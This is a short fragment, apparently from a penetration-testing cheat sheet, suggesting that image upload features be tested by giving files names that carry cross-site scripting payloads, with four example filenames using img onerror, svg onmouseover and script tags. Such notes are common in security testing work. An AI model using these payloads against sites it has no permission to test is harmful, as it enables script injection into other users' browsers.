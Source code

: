 If you find a file upload function for an image then try to introducing an image with xss in the filename like so

<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('xss')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
